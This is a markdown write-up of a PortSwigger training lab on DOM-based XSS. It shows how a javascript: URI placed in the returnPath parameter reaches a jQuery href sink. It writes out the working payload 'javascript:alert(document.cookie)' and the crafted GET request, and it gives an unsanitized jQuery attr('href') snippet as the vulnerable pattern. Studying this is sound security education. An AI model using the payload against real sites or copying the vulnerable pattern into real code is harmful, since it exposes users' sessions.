


# DOM XSS in jQuery anchor href attribute sink using location.search source

**Platform:** PortSwigger Web Security Academy  
**Difficulty:** Apprentice  
**Date Completed:** 25 November 2026  
**Status:** Solved

---

## Lab Description

This lab contains a DOM-based cross-site scripting vulnerability.  
The application uses jQuery to set the `href` attribute of an anchor element based on the `returnPath` (or similar) parameter from `location.search`.

The goal is to inject a `javascript:` URI that executes JavaScript when the link is clicked (or automatically triggered by the lab).

---

## Tools Used

- Burp Suite Community Edition (Proxy + HTTP history)
- Firefox with FoxyProxy

---

## Solution Steps

### 1. Identify the vulnerable parameter

The application reads a parameter from the URL (commonly `returnPath` or `returnUrl`) and uses it to set an anchor’s `href` attribute via jQuery.

Example of a normal request:
```http
GET /feedback?returnPath=/ HTTP/2
```

### 2. Inject a javascript: URI

Replace the value of the parameter with:

```
javascript:alert(document.cookie)
```

**Final request:**

```http
GET /feedback?returnPath=javascript:alert(document.cookie) HTTP/2
```

### 3. Trigger the payload

After loading the page with the malicious parameter, the lab detects the execution of `alert(document.cookie)` and marks the lab as solved.

---

## Why the Payload Works

jQuery (or similar code) does something equivalent to:

```javascript
$('a').attr('href', location.search.split('=')[1]);
```

When the value starts with `javascript:`, the browser treats the `href` as a JavaScript URI.  
Clicking the link (or the lab’s automatic check) executes the code after `javascript:`.

Using `document.cookie` is a common way to demonstrate that arbitrary JavaScript can be run in the context of the page.

---

## Screenshots

### Lab solved



### Request in Burp HTTP history



---

## Key Takeaways

- DOM XSS can occur when attacker-controlled data is written into an HTML attribute (especially `href`, `src`, `action`, etc.).
- `javascript:` URIs are a classic way to execute code when the sink is an attribute that accepts a URL.
- Always check how the application uses `location.search`, `location.hash`, and similar sources.
- jQuery’s `.attr()` / `.prop()` methods do not automatically sanitize values.

---

## References

- [PortSwigger – DOM-based XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)
- [Lab link](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink)
